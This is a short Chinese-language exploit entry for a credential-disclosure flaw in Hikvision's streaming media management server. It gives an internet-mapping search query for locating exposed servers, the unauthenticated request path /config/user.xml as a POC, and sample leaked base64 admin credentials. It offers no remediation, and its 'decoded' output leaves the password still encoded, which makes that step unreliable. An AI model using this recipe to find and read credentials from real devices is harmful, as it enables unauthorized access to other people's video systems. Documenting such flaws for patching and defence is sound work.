


# Hikvision 流媒体管理服务器 user.xml 账号密码泄漏漏洞

## 漏洞描述

Hikvision 流媒体管理服务器配置文件未做鉴权，攻击者通过漏洞可以获取网站账号密码

## 漏洞影响

```
Hikvision 流媒体管理服务器
```

## 网络测绘

```
"杭州海康威视系统技术有限公司 版权所有" && title="流媒体管理服务器"
```

## 漏洞复现

登陆页面



POC

```
/config/user.xml
```



```
<user name="YWRtaW4=" password="MTIzNDU="/>
```

base64解密

```
<user name="admin" password="MTIzNDU="/>
```

